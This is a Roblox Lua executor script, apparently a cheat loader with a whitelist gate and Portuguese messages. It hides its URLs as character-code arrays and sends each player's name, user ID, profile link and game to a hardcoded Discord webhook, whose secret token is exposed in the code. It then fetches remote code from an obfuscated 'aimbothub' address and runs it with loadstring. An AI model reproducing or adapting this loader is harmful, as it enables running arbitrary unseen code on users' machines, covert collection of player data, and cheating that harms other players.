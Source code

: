 local webhook = "https://discord.com/api/webhooks/1378061993080000663/fc1xcwWe6n3XtSZcTmQF9xctT8QN70_ZeBybQVAKi-29uXLl5gYCW53MggjNv5HZIwaS"

local function decode(arr)
    local s = ""
    for i = 1, #arr do
        s = s .. string.char(arr[i])
    end
    return s
end

local whitelist_chars = {
    104,116,116,112,115,58,47,47,114,97,119,46,103,105,116,104,117,98,117,115,
    101,114,99,111,110,116,101,110,116,46,99,111,109,47,108,101,111,110,110,
    120,100,47,119,104,105,116,101,108,108,115,108,108,115,107,115,47,114,101,
    102,115,47,104,101,97,100,115,47,109,97,105,110,47,82,69,65,68,77,69,46,
    109,100
}

local whitelistURL = decode(whitelist_chars)

local HttpService = game:GetService("HttpService")

local function getAvatarUrl(userId)
    local success, response = pcall(function()
        return HttpService:JSONDecode(game:HttpGet("https://thumbnails.roblox.com/v1/users/avatar-headshot?userIds=" .. userId .. "&size=420x420&format=Png&isCircular=false"))
    end)
    if success and response and response.data and #response.data > 0 then
        return response.data[1].imageUrl
    else
        return "https://www.roblox.com/asset/?id=1" -- fallback genérico
    end
end

local function sendWebhook(username, autorizado, userId)
    local gameName = game:GetService("MarketplaceService"):GetProductInfo(game.PlaceId).Name
    local placeId = game.PlaceId
    local hora = os.date("%d/%m/%Y %H:%M:%S")

    local profileUrl = "https://www.roblox.com/users/" .. userId .. "/profile"
    local avatarUrl = getAvatarUrl(userId)

    local data = {
        ["embeds"] = {{
            ["title"] = autorizado and "✅ Player verificado na whitelist!" or "❌ Tentativa de acesso negada!",
            ["description"] = autorizado and "Um jogador entrou no script!" or "Um jogador tentou usar o script sem estar na whitelist!",
            ["fields"] = {
                {["name"] = "**👤 Player**", ["value"] = username, ["inline"] = true},
                {["name"] = "**🎮 Mapa**", ["value"] = gameName .. " (`" .. placeId .. "`)", ["inline"] = false},
                {["name"] = "**🔗 Perfil Roblox**", ["value"] = "[Clique aqui](" .. profileUrl .. ")", ["inline"] = false},
                {["name"] = "**🕒 Data / Horário**", ["value"] = hora, ["inline"] = false}
            },
            ["color"] = autorizado and 65280 or 16711680,
            ["author"] = {
                ["name"] = username,
                ["icon_url"] = avatarUrl
            },
            ["thumbnail"] = {
                ["url"] = avatarUrl
            }
        }},
        ["username"] = "Whitelist Logger"
    }

    local headers = { ["Content-Type"] = "application/json" }
    local body = HttpService:JSONEncode(data)

    local request = (syn and syn.request) or (http and http.request) or http_request or request
    if request then
        request({
            Url = webhook,
            Method = "POST",
            Headers = headers,
            Body = body
        })
    else
        warn("Executor não suporta envio HTTP.")
    end
end

local function isPlayerWhitelisted(playerName)
    local success, result = pcall(function()
        return HttpService:JSONDecode(game:HttpGet(whitelistURL))
    end)
    if success and typeof(result) == "table" then
        for _, name in ipairs(result) do
            if name == playerName then
                return true
            end
        end
    end
    return false
end

local Players = game:GetService("Players")
local LocalPlayer = Players.LocalPlayer

local screenGui = Instance.new("ScreenGui")
screenGui.Parent = game.CoreGui

local inputBox = Instance.new("TextBox")
inputBox.Parent = screenGui
inputBox.Size = UDim2.new(0, 400, 0, 50)
inputBox.Position = UDim2.new(0.5, -200, 0.5, -25)
inputBox.PlaceholderText = "Verificando sua whitelist..."
inputBox.Text = ""
inputBox.BackgroundColor3 = Color3.fromRGB(30, 30, 30)
inputBox.TextColor3 = Color3.fromRGB(255, 255, 255)
inputBox.TextSize = 20
inputBox.ClearTextOnFocus = false

if not isPlayerWhitelisted(LocalPlayer.Name) then
    inputBox.Text = "❌ Você não está na whitelist!"
    sendWebhook(LocalPlayer.Name, false, LocalPlayer.UserId)
    task.wait(2)
    LocalPlayer:Kick("Você não está na whitelist!")
    return
end

inputBox.Text = "✔️ Você está na whitelist!"
sendWebhook(LocalPlayer.Name, true, LocalPlayer.UserId)
task.wait(1)
screenGui:Destroy()

local t = {
    104,116,116,112,115,58,47,47,114,97,119,46,103,105,116,104,117,98,117,115,
    101,114,99,111,110,116,101,110,116,46,99,111,109,47,108,101,111,110,110,
    120,100,47,97,105,109,98,111,116,104,117,98,47,114,101,102,115,47,104,101,
    97,100,115,47,109,97,105,110,47,82,69,65,68,77,69,46,109,100
}
local url = decode(t)
loadstring(game:HttpGet(url))()
